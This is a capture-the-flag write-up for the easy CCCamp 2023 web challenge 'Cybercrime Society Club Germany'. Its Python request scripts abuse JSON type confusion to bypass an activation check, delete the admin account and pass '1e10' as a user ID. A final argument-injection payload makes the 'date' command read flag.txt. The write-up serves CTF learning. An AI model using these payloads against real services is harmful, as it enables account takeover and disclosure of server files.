

# CCCamp CTF 2023 - Cybercrime Society Club Germany

| Difficulty | Category | Author                             |
|------------|----------|------------------------------------|
| `easy`     | `web`    | [r0bre](https://twitter.com/r0bre) | 

## Challenge:

You are agent Json Bourne. Your mission: Hack this new cybercrime website before it is too late.

## Solution:

Let's take a look at the page that we are supposed to hack:

[](./assets/screen0.png)

As far as simple. We get two links. The first takes us to this login form:

[](./assets/screen1.png)

Well okay. Without credentials, we won't get any further here. Let's create a user then:

[](./assets/screen2.png)

Funny, quite a lot of options here. We can even set our own UserId. But what's with the activation code? If we try to sign up, we have to wait 20 seconds, and then get this:

[](./assets/screen3.png)

We could either try every possible option when sending this request... But we also have the source code available. So let's see what checkes are used when creating a user.

[!NOTE]
Before diving into the code: Every request to the API of the page is sent via POST to the `/json_api` route. The specific action is defined with field in the body of the message, respectively called `action`. The other field in the body is called `data` and contains whatever information is necessary for the request.

The [app.py](./assets/files/app/app.py) contains the server logic with some helper functions and the defined routes. Some more functions are defined in the [Userdb.py](./assets/files/app/Userdb.py). But most interesting: The `flag.txt` is in the same directory as those two files. Reading the contents of that file is clearly the goal of this challenge.

When creating a user, eventually the `check_activation_code(activation_code)` function is used to check wheter the provided activation code is valid. This check is rather peculiar though:

```python
"{:0>4}".format(random.randint(0, 10000)) in activation_code
```

Here, `activation_code` is the directly provided by the user via the `data` field in the body of the POST request. So, assuming `activation_code` is a string, this check always creates a random integer between 0000 and 9999 and checks whether that is contained in that string given by the user. I repeat, "**is contained in**". That means we could provide a string that contains all possible integers. That check would always be true. Even better: We are not limited to strings. JSON allows us to provide a list, which works as well.

One could think they could also brute-force that random number, because it is very small. That 20 second delay though prevents that. The author even hints to that with a comment.

Using this, we can actually create an account. Let's do that in a script, just to keep up with note of what we are doing:

```python
import requests
url = "http://localhost/json_api"
normal_user = "user@foo.bar"
password = "supersecure"
r = requests.post(url, data=json.dumps({
    "action": "create_account",
    "data": {
        "email": normal_user,
        "password": password,
        "groupid": "001",
        "userid": "0123",
        "activation": [f"{i:04}" for i in range(10000)]
    }
}))
print(r.text)
```

That returns the following JSON:

```json
{
    "return": "Success",
    "message": "User Created"
}
```

Nice. Let's use that for logging in:

```python
s = requests.Session()
r = s.post(url, data=json.dumps({
    "action": "login",
    "data": {
        "email": normal_user,
        "password": password
    }
}))
print(r.text)
```

That returns:

```json
{
    "return": "Success",
    "message": "logged in"
}
```

Okay. The webpage with that user shows that we can really only change our own user information. It looks like this:

[](./assets/screen3.png)

Looking back at the code, there are checks whether a user has admin rights. This is the full check:

```python
user["email"] == "admin@cscg.de" and user["userid"] > 90000000
```

So we need to have access to an account with exactly that email address and a very large user id. Let's first take on the problem regarding the email.

If we try to change our user's email to that, we get an error. Looking at the code, the only possible failing check is that this user already exists. How about deleting the current admin user account?

The logic for deleting an user account is pretty funny. It first checks whether the email provided in the `email` field in `data` is the same as the one known for the current user. So far so valid. But then it takes all values from the `data` object and deletes all emails it can find with those:

```python
if data["data"]["email"] != user["email"]:
    return error_msg("Hey thats not your email!")
if delete_accs(data["data"].values()):
    return success_msg("deleted account")
```

So if we provide our own email, it will delete our own account. But if we also provide the admin's email, that account should be deleted, too. Let's try that:

```python
r = s.post(url, data=json.dumps({
    "action": "delete_account",
    "data": {
        "email": normal_user,
        "admin_email": admin_user
    }
}))
print(r.text)
```

This results in the following output:

```json
{
    "return": "Success",
    "message": "deleted account"
}
```

Nice. So, maybe now we can change our own email to the admin's one? But first we need to talk about the user id problem.

When creating an account, you must provide a value for the `userid` field that has a length of 4 characters. The check for that seems to be tight:

```python
assert(len(userid) == 4)
```

But we are providing strings and not numbers. We could use a notation for integers in Python that uses only four characters, but results in number that is a lot larger: `1e10`

This results in the following: 1 * 10**10 = 10000000000 = 1e10

We should be able to use that. Let's try and create a new user:

```python
new_admin_user = "admin@foo.bar"
password = "supersecure"
r = requests.post(url, data=json.dumps({
    "action": "create_account",
    "data": {
        "email": new_admin_user,
        "password": password,
        "groupid": "001",
        "userid": "1e10",
        "activation": [f"{i:04}" for i in range(10000)]
    }
}))
print(r.text)
s = requests.Session()
r = s.post(url, data=json.dumps({
    "action": "login",
    "data": {
        "email": new_admin_user,
        "password": password
    }
}))
print(r.text)
r = s.post(url, data=json.dumps({
    "action": "edit_account",
    "data": {
        "email": "admin@cscg.de"
    }
}))
print(r.text)
```

This code results in the following three outputs:

```json
{
    "return": "Success",
    "message": "User Created"
}
{
    "return": "Success",
    "message": "logged in"
}
{
    "return": "Success",
    "message": "Success"
}
```

Let's now login in the browser using the email address we have just set and our own password. We are able to do "admin stuff" now! This looks like this:

[](./assets/screen3.png)

Using this, we can execute the `date` command. Nothing else seems to be possible, because in every case we get an error message. Looking at the code for that, this check seems to be the culprit:

```python
len(string) == 4 and string.index("date") == 0
```

`string` is the value provided in the `cmd` field by the user. It might seem like it only allows the string `"date"`. But as have the value under our control, we can again provide a list that also returns `True` on that check. All that list needs to do is have four elements and the first element needs to be "date".

As this input is then put into `subprocess.run()`, it seems like we can control the input parameters into `date`. Remember that we need to read the contents of that `flag.txt`? We can try to use the `-f` parameter to read a file. It tries to read and parse a date from a given file. If that is not a valid date, it prints the following error message: `invalid date '{contents-of-the-file}'`

Let's go ahead and put that into action:

```python
r = s.post(url, data=json.dumps({
    "action": "admin",
    "data": {
        "cmd": ["date", "-R", "-f", "flag.txt"]
    }
}))
print(r.text)
```

Note that we also provide the `-R` flag to have the list be of length 4. This flag would make the parsed date to be in a different format. But as the date can't be parsed, this does not have any effect.

The request returns the following output:

```json
{
    "return": "Success",
    "message": "date: invalid date \u2018ALLES!{redacted}\u2019\n"
}
```

Nice. You can find the full script in a bit more readable format here: [solve.py](./assets/solve.py)